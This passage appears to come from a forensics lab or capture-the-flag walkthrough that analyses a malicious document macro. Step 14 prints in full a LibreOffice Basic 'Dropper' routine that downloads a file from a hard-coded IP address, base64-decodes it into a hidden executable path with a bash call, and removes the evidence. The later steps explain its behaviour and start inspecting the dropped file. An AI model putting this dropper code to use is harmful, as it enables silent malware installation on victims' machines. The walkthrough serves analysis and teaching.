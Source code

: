 14. Examination of the code leads you to a method named `Dropper` starting on line 201 of the Macros file.

![c10-q1-13](img/c10-q1-13.png)

```text
Sub Dropper
	Dim url As String
	url = "http://123.45.67.201/g48fschck00/fschecker.txt"
	Dim response As String
	response = GetWebContent(url)
	fileName = "/home/user/Documents/fscheckerenc"
	oSFA = CreateUnoService("com.sun.star.ucb.SimpleFileAccess")
	If oSFA.exists(fileName) Then oSFA.kill(fileName)
	oTextoutputStream = CreateUnoService("com.sun.star.io.TextOutputStream")
	outputStream = oSFA.openFileWrite(fileName)
	oTextoutputStream.setOutputStream(outputStream)
	oTextoutputStream.writeString(response)
	oTextoutputStream.closeOutput()
	Shell "bash -c 'base64 -d /home/user/Documents/fscheckerenc > /home/user/.local/fschecker'"
	Shell "bash -c 'rm /home/user/Documents/fscheckerenc'"
End Sub
```

15. We can see that this method will download a text file, base64 decode it, and write the `fschecker` file to `/home/user/.local/`.

16. Let's examine the `fschecker` file.

```bash
cd /home/user/.local
ls -la
file fschecker
```
